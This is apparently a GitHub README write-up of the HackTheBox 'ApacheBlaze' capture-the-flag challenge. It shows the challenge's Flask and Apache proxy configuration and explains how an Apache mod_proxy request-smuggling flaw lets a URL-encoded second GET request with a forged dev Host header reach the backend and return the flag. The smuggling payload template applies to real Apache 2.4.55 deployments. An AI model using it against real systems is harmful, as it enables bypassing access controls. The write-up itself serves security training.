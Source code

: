 # ApacheBlaze
![Uploaded Image](https://github.com/0ffsecReaper/ApacheBlaze/blob/README.md/Screenshot%20from%202023-10-25%2018-36-08.png)

### After Deploying the Machine you will Lend on this page Which look like this

![](https://github.com/0ffsecReaper/ApacheBlaze/blob/README.md/HackTheBox-ApacheBlaze-Website.png)

** After Downloadeing the source code please read through the whole code and analyse what you have ssen to something location to which you havemt visited 
```
from flask import Flask, request, jsonify

app = Flask(__name__)

app.config['GAMES'] = {'magic_click', 'click_mania', 'hyper_clicker', 'click_topia'}
app.config['FLAG'] = 'HTB{f4k3_fl4g_f0r_t3st1ng}'

@app.route('/', methods=['GET'])
def index():
    game = request.args.get('game')

    if not game:
        return jsonify({
            'error': 'Empty game name is not supported!.'
        }), 400

    elif game not in app.config['GAMES']:
        return jsonify({
            'error': 'Invalid game name!'
        }), 400

    elif game == 'click_topia':
        if request.headers.get('X-Forwarded-Host') == 'dev.apacheblaze.local':
            return jsonify({
                'message': f'{app.config["FLAG"]}'
            }), 200
        else:
            return jsonify({
                'message': 'This game is currently available only from dev.apacheblaze.local.'
            }), 200

    else:
        return jsonify({
            'message': 'This game is currently unavailable due to internal maintenance.'
        }), 200
```
* We can easily can see that easily we can add the path and can get the flag via seeing this code snip
  ```
  elif game == 'click_topia':
        if request.headers.get('X-Forwarded-Host') == 'dev.apacheblaze.local':
            return jsonify({
                'message': f'{app.config["FLAG"]}'
            }), 200
  ```
  ![](https://github.com/0ffsecReaper/ApacheBlaze/blob/README.md/HackTheBox-ApacheBlaze-burp-with-Forwarded-host.png)

  ### We can easily see but that not that much easy we have to see something or explore more and after more analysis we see:
  * In the Dockerfile We know that the game source code is located in the /app/ folder
  * And it uses uwsgi to start the server with two ports 8081 and 8082.
  * File httpd.conf:
```
ServerName _
ServerTokens Prod
ServerSignature Off

Listen 8080
Listen 1337

ErrorLog "/usr/local/apache2/logs/error.log"
CustomLog "/usr/local/apache2/logs/access.log" common

LoadModule rewrite_module modules/mod_rewrite.so
LoadModule proxy_module modules/mod_proxy.so
LoadModule proxy_http_module modules/mod_proxy_http.so
LoadModule proxy_balancer_module modules/mod_proxy_balancer.so
LoadModule slotmem_shm_module modules/mod_slotmem_shm.so
LoadModule lbmethod_byrequests_module modules/mod_lbmethod_byrequests.so

<VirtualHost *:1337>

    ServerName _

    DocumentRoot /usr/local/apache2/htdocs

    RewriteEngine on

    RewriteRule "^/api/games/(.*)" "http://127.0.0.1:8080/?game=$1" [P]
    ProxyPassReverse "/" "http://127.0.0.1:8080:/api/games/"

</VirtualHost>

<VirtualHost *:8080>

    ServerName _

    ProxyPass / balancer://mycluster/
    ProxyPassReverse / balancer://mycluster/

    <Proxy balancer://mycluster>
        BalancerMember http://127.0.0.1:8081 route=127.0.0.1
        BalancerMember http://127.0.0.1:8082 route=127.0.0.1
        ProxySet stickysession=ROUTEID
        ProxySet lbmethod=byrequests
    </Proxy>

</VirtualHost>
```
In Above code we can see that "^/api/games/(.*) we forwarded through port 8080 with the ip 127.0.0.1, then it Continue to go through the balancer module with ip 127.0.0.1 and will arrive at one of two ports, 8081 or 8082.

Some after some more analysis Then I know that  the X-Forwarded-Host so we will pass in will carry 2 additional IPs as I mentioned above.
hat uwsgi uses version 2.0.22 and apache has version httpd-2.4.55. Looking for some vulnerabilities I found:
Apache HTTP Server via mod_proxy_uwsgi HTTP response smuggling
With this vulnerability We will Make and Payload 
```
GET /api/games/click_topia HTTP/1.1
Host: dev.apacheblaze.local

GET /<ANY> HTTP/1.1
Host: <IP>:<PORT>
...
```
Just above url encode it some how that the spaces and new lines will be encoded atleast and under that the asusual request will be sended like this :

![](https://github.com/0ffsecReaper/ApacheBlaze/blob/README.md/Screenshot%20from%202023-10-25%2021-03-28.png)
and you will get the flag



Hence Pwned

